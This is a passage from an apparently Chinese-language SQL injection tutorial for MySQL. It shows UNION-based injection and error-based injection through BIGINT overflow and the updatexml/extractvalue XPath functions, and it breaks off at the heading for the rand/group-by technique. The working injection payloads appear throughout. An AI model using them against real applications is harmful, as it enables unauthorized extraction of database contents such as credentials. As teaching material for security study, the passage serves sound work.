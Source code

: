 # 注入的几大种类
此处注入的分类是根据服务器对我们传的参数不同的响应来进行划分。
## 联合查询注入
适用于有回显位的注入
```mysql
mysql> select * from user where id=1 union select 1,2,3;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | admin    |
|  1 | 2        | 3        |
+----+----------+----------+
2 rows in set (0.00 sec)
```
`union select`
`union all select` 不去重
将1，2，3替换为sql语句即可。具体替换那一个需要看页面回显了哪一位。
## 报错注入
适用于有MySQL报错信息提示的注入。
### BIGINT等数据类型溢出
按位取反`~`、`!`、`exp()`来溢出报错。

有版本限制，mysql>5.5.53时，则不能返回查询结果。

```mysql
select exp(~(select*from(select user())x));
```

```mysql
select (select(!x-~0)from(select(select user())x)a);
```

报错信息是有长度限制的，在`mysql/my_error.c`中可以看到

### XPATH语法错误

从mysql5.1.5开始提供两个XML查询和修改的函数，`extractvalue`和`updatexml`。`extractvalue`负责在xml文档中按照xpath语法查询节点内容，`updatexml`则负责修改查询到的内容。

它们的第二个参数都要求是符合xpath语法的字符串，如果不满足要求，则会报错，并且将查询结果放在报错信息里。

```mysql
select updatexml(1,concat(0x7e,(select version()),0x7e),1);
```

```mysql
select extractvalue(1,concat(0x7e,(select version()),0x7e));
```

注意报错回显长度有限制，配合字符串操作函数使用。

### concat()+rand()+group by导致主键重复

